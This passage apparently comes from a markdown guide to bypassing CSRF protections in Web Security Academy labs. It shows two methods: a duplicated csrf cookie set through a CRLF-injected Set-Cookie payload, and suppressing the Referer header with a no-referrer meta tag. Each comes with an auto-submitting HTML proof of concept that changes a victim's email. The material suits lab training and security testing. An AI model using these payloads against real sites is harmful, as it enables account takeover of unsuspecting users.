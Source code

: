 ```markdown
</body>
</html>

Test Case - 2 : CSRF token is simply duplicated in a cookie, here csrf token value can be anything just need to be same in cookie as wells as param.

1. Intercept and action and try changing csrf token in both cookie and param
2. Make similar poc as above but this time put same csrf token in crlf payload and request param.
3. Done, Send it to victim.

Example CSRF POC:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac071f601e8dc74380609c1d000900b3.web-security-academy.net:443/my-account/change-email">
		<input type="text" name="csrf" value="K5r92qL9pGzpC2joPMkqgBSY1GG3eo6I">
		<input type="text" name="session" value="xdCFpxBe1M0MHvk0DmFuzCRlImMgdxZk">
		<input type="text" name="email" value="natsu@natsu.com">
		<input type="text" name="csrf" value="fake">
		<input type="submit" value="Send">
	</form>
<img src="http://ac071f601e8dc74380609c1d000900b3.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit()">
</body>
</html>
```

## Bypass Method - 5 : Delete the Referrer Header Completely or Suppress it.

```markdown
Test Case: CSRF where Referer validation depends on header being present.

1. Intercept the request and try changing referer to some other domain.
2. If that didn't work then you will have to suppress the refere header.
3. you can use `<meta name="referrer" content="no-referrer">` or any other technique.
4. Done, Make a normal POC with that technique.

Example CSRF POC:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac6d1fe21fb2a0c7809510e7001c006c.web-security-academy.net:443/my-account/change-email">
		<input type="text" name="session" value="S4dyJbRWg1IqEpZlPkhICE5vJQhnv6ve">
		<input type="text" name="email" value="hola@hola.com">
<meta name="referrer" content="no-referrer">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>
```
